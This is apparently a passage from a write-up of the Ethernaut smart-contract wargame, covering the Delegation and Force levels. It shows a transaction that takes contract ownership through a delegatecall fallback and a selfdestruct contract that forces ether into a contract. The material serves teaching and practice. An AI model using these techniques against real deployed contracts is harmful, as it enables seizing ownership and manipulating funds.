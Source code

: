 We can see that `fallback()` function in the contract makes a delegate call to other contract, in a delegate call the same msg.sender, msg.value and the storage will be used while the execution of the code.

Solidity allocates slots for the variables in the order as they appear, since the same storage is used in the delegate call if we try to update the slot 0 (owner) in the `Delegate` contract, underhoods it updates the slot 0 (owner) of the `Delegation` contract. As the storage of Delegation contract will be used.

> #### Solution:
> We have to call the `pwn()` function from the Delegation contract to update the owner.
> ```solidity
> await sendTransaction({
>     from: player,
>     to: instance,
>     data: web3.eth.abi.encodeFunctionSignature("pwn()")
> });
> ```

<hr>

## 7 Force
We need to deposit funds to this contract to complete this level.
#### Source:
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Force {/*

                   MEOW ?
         /\_/\   /
    ____/ o o \
  /~____  =ø= /
 (______)__m_m)

*/}
```

There are no functions that we could use to send funds to this contract. One way to send funds to this contract is via `selfdestruct`. We can have an exploit contract which will get self destructed and all the funds in exploit can be sent to any address specified.

#### Solution:
- First we deploy our expolit contract.
- Then we transfer some funds to our exploit.
- Then we call the `selfDestruct` function with our contract instance address as a parameter, that will sucessfully send funds to our contract.



```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.0;

contract forceExploit {
    
    function selfDestruct(address payable _address) payable public {
        selfdestruct(_address);
    }

    receive() external payable {
    }

}
```
